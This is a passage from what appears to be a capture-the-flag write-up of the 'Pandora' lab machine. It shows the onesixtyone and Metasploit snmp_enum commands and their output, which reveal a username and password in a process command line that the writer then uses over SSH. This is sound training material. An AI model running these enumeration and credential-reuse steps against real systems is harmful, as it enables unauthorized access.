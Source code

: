 ## SNMP service

We use [onesixtyone](https://github.com/trailofbits/onesixtyone) to found the
community string. Only `public` seems to be available.

    :::text
    └─$ onesixtyone 10.129.148.185 -c wordlist-common-snmp-community-strings.txt
    Scanning 1 hosts, 122 communities
    10.129.148.185 [public] Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64
    10.129.148.185 [public] Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64

We use the `snmp_enum` module of `msfconsole` to enumerate the SNMP information.
And found that a process that is using a username and a password in the command
line.

    :::text
    msf6 auxiliary(scanner/snmp/snmp_enum) > show options

    Module options (auxiliary/scanner/snmp/snmp_enum):

      Name       Current Setting  Required  Description
      ----       ---------------  --------  -----------
      COMMUNITY  public           yes       SNMP Community String
      RETRIES    1                yes       SNMP Retries
      RHOSTS     10.129.148.185   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wi
                                            ki/Using-Metasploit
      RPORT      161              yes       The target port (UDP)
      THREADS    1                yes       The number of concurrent threads (max one per host)
      TIMEOUT    1                yes       SNMP Timeout
      VERSION    1                yes       SNMP Version <1/2c>


    msf6 auxiliary(scanner/snmp/snmp_enum) > run

    [+] 10.129.148.185, Connected.

    [*] System information:

    Host IP           : 10.129.148.185
    Hostname          : pandora
    Description       : Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64
    Contact           : Daniel
    <SNIP>
    984  runnable  sh  /bin/sh  -c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'
    <SNIP>


## Pandora

We test this credentials on the SSH service and they are working. We check this
`host_check` process and found that a web application is exposed on locally.
